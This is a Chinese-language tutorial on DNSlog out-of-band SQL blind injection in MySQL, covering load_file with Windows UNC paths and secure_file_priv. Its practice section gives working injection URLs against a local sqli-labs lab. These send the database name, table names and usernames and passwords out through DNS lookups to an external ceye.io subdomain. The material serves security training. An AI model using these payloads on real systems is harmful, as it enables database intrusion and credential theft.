





# <font style="color:rgb(38, 38, 38);">1.dnslog简介</font>
<font style="color:rgb(38, 38, 38);">Dnslog就是存储在DNS Server上的域名信息，它记录着用户对域名www.test.com、t00ls.com.等的访问信息。</font>

# <font style="color:rgb(38, 38, 38);">2.dnslog原理</font>
<font style="color:rgb(38, 38, 38);">注册了一个为a.com的域名，我将他a记录解析到10.0.0.0上，这样就实现了无论我记录值填什么他都有解析，并且都指向10.0.0.0，当我向dns服务器发起test.a.com的解析请求时，DNSlog中会记录下他给test.a.com解析，解析值为10.0.0.0。（通俗来讲就是我们申请一个dnslog的平台，当我们盲注的时候把想要的数据和平台给的地址拼接起来，dnslog平台就会把请求的记录显示出来。）</font>

# **<font style="color:rgb(38, 38, 38);">3.dnslog盲注原理</font>**
<font style="color:rgb(38, 38, 38);">对于SQL盲注，我们可以通过布尔或者时间盲注获取内容，但是整个过程效率低，需要发送很多的请求进行判断，容易触发安全设备的防护，Dnslog盲注可以减少发送的请求，直接回显数据实现注入 使用DnsLog盲注仅限于windos环境。</font>

# **<font style="color:rgb(38, 38, 38);">4.基础函数</font>**
<font style="color:rgb(38, 38, 38);">DNSlog进行注入需要用到load_file()函数，为什么要用load_file函数呢？因为load_file函数可以解析dns请求。数据库中使用此payload：select load_file('\\\\SQL注入查询语句.a.com')。</font><font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">	有些地方用Hex编码，编码目的就是减少干扰，因为很多数据库字段的值可能是有特殊符号的，这些特殊符号拼接在域名里是无法做dns查询的，因为域名是有一定的规范，有些特殊符号是不能带入的。</font><font style="color:rgb(38, 38, 38);">  
</font>**<font style="color:rgb(38, 38, 38);">	注意：load_file函数在Linux下是无法用来做dnslog攻击的，因为在这里就涉及到Windows的一个小Tips——UNC路径（</font>**<font style="color:rgb(38, 38, 38);"> UNC路径就是类似\\softer这样的形式的网络路径。 格式为：\\servername\sharename\directory\filename</font>**<font style="color:rgb(38, 38, 38);">）。</font>**

# <font style="color:rgb(38, 38, 38);">5.dnslog盲注注意事项</font>
```sql
dns带外查询属于MySQL注入，在MySQL中有个系统属性：
    secure_file_priv特性，有三种状态
    secure_file_priv为null 表示不允许导入导出
    secure_file_priv指定文件夹时，表示mysql的导入导出只能发生在指定的文件夹
    secure_file_priv没有设置时，则表示没有任何限制
show variables like '%secure%';查看load_file()可以读取的磁盘。有路径或为null的则不可以进行DNSlog外带
```



<font style="color:rgb(38, 38, 38);">在mysql的配置文件 my.ini 可以设置</font><font style="color:rgb(38, 38, 38);">  
</font>



<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">之后重启mysql服务。</font>

# **6.实战**
## **<font style="color:rgb(38, 38, 38);">6.1.实战平台</font>**
```sql
ceye.io
www.dnslog.cn
```

**<font style="color:rgb(38, 38, 38);">6.2.实战步骤</font>**

**<font style="color:rgb(38, 38, 38);">6.2.1.获取数据库名称</font>**

```sql
http://127.0.0.1/sqli-labs/Less-9/?id=1' and LOAD_FILE(CONCAT('\\\\',(select database()),'.ejy4gn.ceye.io\\abc'))-- #
```



**<font style="color:rgb(38, 38, 38);">6.2.2.获取表的名称</font>**

```sql
http://127.0.0.1/sqli-labs/Less-9/?id=1' and LOAD_FILE(CONCAT('\\\\',(select table_name from information_schema.tables where table_schema=database() limit 1,1),'.ejy4gn.ceye.io\\abc'))--+
```



**<font style="color:rgb(38, 38, 38);">6.2.3.获取字段值</font>**

```sql
http://127.0.0.1/sqli-labs/Less-9/?id=1' and LOAD_FILE(CONCAT('\\\\',(select concat_ws('A',username,password) from security.users limit 0,1),'.ejy4gn.ceye.io\\abc'))--+
```



